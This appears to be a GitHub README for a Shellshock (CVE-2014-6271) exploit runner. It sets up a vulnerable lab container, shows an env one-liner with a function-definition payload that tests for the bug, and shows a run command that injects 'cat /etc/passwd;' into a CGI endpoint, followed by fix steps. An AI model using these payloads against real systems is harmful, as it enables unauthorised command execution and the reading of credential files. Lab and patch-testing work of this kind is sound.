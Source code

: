 ## CVE-2014-6271 [ shellshock ]
> GNU Bourne-Again Shell (Bash) ‘Shellshock’ Vulnerability

- Expose a machine to shellshock attack
  ```
  docker pull hmlio/vaas-cve-2014-6271
  docker run -d -p 8080:80 hmlio/vaas-cve-2014-6271
  ```

- Check if the current machine is vulnerable to `CVE-2014-6271`
  ```
  env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION%%=() { :;}; echo Bash is vulnerable!' bash
  ```

### Runner
```
python CVE-2014-6271/main.py http://0.0.0.0:8080/cgi-bin/stats 'cat /etc/passwd;'
```

### How to fix ?
- Update Bash version `> v4.3`
- Check version `bash --version`

### Prerequisites
1. Python libraries
   ```
   requests
   mechanize
   pyopenssl
   ```